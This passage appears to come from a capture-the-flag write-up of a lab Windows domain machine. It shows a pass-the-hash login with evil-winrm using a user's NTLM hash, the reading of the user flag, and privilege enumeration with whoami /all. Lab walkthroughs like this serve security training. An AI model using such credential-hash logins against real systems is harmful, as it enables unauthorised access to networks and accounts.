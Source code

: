 With the user `Lion.SK` we got access to the `user.txt`.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i certificate.htb -u 'lion.sk' -H 3b24c391862f4a8531a245a0217708c4
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Lion.SK\Documents>
```

## user.txt

```cmd
*Evil-WinRM* PS C:\Users\Lion.SK\Desktop> type user.txt
56f2d422d9f3d89daf80c17b357de391
```

## Enumeration (Lion.SK)

Once again we didn't get lucky by checking the `permissions` of our newly obtained `user`.

```cmd
*Evil-WinRM* PS C:\Users\Lion.SK\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== =============================================
certificate\lion.sk S-1-5-21-515537669-4223687196-3249690583-1115


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
CERTIFICATE\Domain CRA Managers            Group            S-1-5-21-515537669-4223687196-3249690583-1104 Mandatory group, Enabled by default, Enabled group
```